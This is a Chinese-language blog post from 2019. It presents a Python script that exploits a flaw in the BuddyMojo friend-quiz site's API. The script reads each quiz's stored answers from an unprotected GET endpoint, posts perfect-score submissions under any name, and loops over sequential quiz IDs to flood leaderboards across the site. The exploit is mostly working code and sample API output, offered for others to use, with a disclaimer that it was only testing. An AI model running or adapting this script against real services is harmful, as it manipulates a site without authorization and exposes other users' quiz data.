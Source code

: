 ```yaml
---
title: 'xiiiiaoz: 一個BuddyMojo的腳本'
date: 2019-11-16 22:17:48
tags:
---
```


 
> 我不是之前那個`applepie5566`，我只是想公佈我刷榜的方法給有興趣的人知道。我也不是專業的，如果有人有更好的方法，歡迎交流。

November 16, 2019 

![](/images/xiiiiaoz_1.png)

# 啟發

不久以前有一個叫`applepie5566`的人在「[**Buddymojo 好友測驗**](http://cn.buddymojo.com)」網站，刷了幾乎所有人的榜，他出現後表示網頁有漏洞，他在不久後也寫了[**一個筆記**](https://www.notion.so/9598f83f50d44cd88f4a0010d76d3f91?pvs=21)公布方法，我就跟著方法寫了一個腳本。

# 參考

詳細網頁漏洞可以去看[**原作者的筆記](https://www.notion.so/9598f83f50d44cd88f4a0010d76d3f91?pvs=21)。**

# 腳本解析

腳本本身是用Python寫的，先安裝幾個必須的Module：

```shell
$ pip install requests
$ pip install json
```

import這些Modules：

```python
import requests
import json
```

## 擷取網站JSON

先設定好Query String Parameters和API的url，還有等等post用的data

```python
payloadf = {'userQuizId': #某人的ID, 
            'type': 'friend',
	          'stats': '1'}
data = {'userFullName': #你想輸入的名字,
        'userQuizId': #某人ID}
url = 'https://cn.buddymojo.com/api/v1/quiz/18'
```

> 💡 上面的`userQuizId`的取得方法一樣參考原作者的筆記

接下來送request到API

```python
req = requests.request('GET', url, params=payloadf)
text = json.loads(req.text)
print(text)
```

API回傳了一個JSON

```json
"data": {
        "id": "1256862",
        "userId": "5498716",
        "quizId": "18",
        "themeId": "3",
        "maxScore": "10",
        "status": "1",
        "encUserQuizId": "5gXY",
        "questions": 
            0: {question: "xiiiiaoz 是什麼類型的人?", options: Array(5), choosenOption: "1"},
            1: {question: "xiiiiaoz對什麼上癮 ?", options: Array(5), choosenOption: "1"},
            2: {question: "xiiiiaoz的生日是幾月?", options: Array(6), choosenOption: "1"},
            3: {question: "xiiiiaoz有什麼天賦？", options: Array(5), choosenOption: "1"},
            4: {question: "xiiiiaoz 喜歡和他／她的伴侶去哪裡?", options: Array(6), choosenOption: "1"},
            5: {question: "xiiiiaoz 想要一個什麼動物作為寵物?", options: Array(3), choosenOption: "1"},
            6: {question: "如果xiiiiaoz遇見一個精靈，xiiiiaoz會許什麼願望？", options: Array(6), choosenOption: "1"},
            7: {question: "在閒暇時間, xiiiiaoz 喜歡做什麼?", options: Array(7), choosenOption: "1"},
            8: {question: "xiiiiaoz最喜歡的超級英雄是誰?", options: Array(7), choosenOption: "1"},
            9: {question: "xiiiiaoz最喜歡什麼運動?", options: Array(7), choosenOption: "1"}
    }
```

## 搜集答案

可以看到questions是一個Array，我的第一個想法就是用loop把`choosenOption` (答案編號) 都抓下來，然後把它append到等等post的data裡

```python
questions = json.loads(req.text).get('data').get('questions')

for j, q in enumerate(questions):
		qval = q.get('choosenOption')
		data.update({'questions['+str(j)+'][choosenOption]': qval})
```

> 💡 enumerate()是Python內建物件，yield兩個迭代器


append完後data會長這樣

```python
{
    'userFullName': 'hi',
    'userQuizId': 1256862,
    'questions[0][choosenOption]': '1',
    'questions[1][choosenOption]': '1',
    'questions[2][choosenOption]': '1',
    'questions[3][choosenOption]': '1', 
    'questions[4][choosenOption]': '1',
    'questions[5][choosenOption]': '1',
    'questions[6][choosenOption]': '1', 
    'questions[7][choosenOption]': '1', 
    'questions[8][choosenOption]': '1', 
    'questions[9][choosenOption]': '1'
}
```

## 傳送Post

再設定另一個Query String Parameters

```python
payload = {'type': 'friend',
           'action': 'finish'}
```

把以上資訊打包並post給API

```python
requests.post(url, params=payload, data=data)
```

得到一個滿分問卷～～～

![](/images/xiiiiaoz_2.png)

## 迴圈跑問卷

這個步驟其實就很間單了，原作者有提到，這個網站的網址是設計成連續的，這其實也代表每個測驗的ID都是連續的。所以我們可以簡單地用for loop：

```python
for i in range(start, end):
    data = {'userFullName': name,
            'userQuizId': i}
    payloadf.update(userQuizId=i)

    try:
        req = requests.request('GET', url, params=payloadf)
        questions = json.loads(req.text).get('data').get('questions')

        for j, q in enumerate(questions):
            qval = q.get('choosenOption')
            data.update({'questions['+str(j)+'][choosenOption]': qval})

        reqi = requests.post(url, params=payload, data=data)
        print('sending post to userQuizId: ' + str(i))
    except:
        continue
```

用continue可以在`userQuizId`不存在的時候直接跳過

## 完成！

最後把它弄成multiprocess，但我就不公布方法了，因為寫得很醜...有興趣的人自己研究吧。

# 聲明

- **這個只是單純利用網頁漏洞做測試，沒有進行任何不法行為**
- **發現漏洞是`applepie5566`，我只是用他/她提供的方法做了腳本，並分享出去**
- **如果你覺得我很無聊的話，恩對我很無聊**

> The End

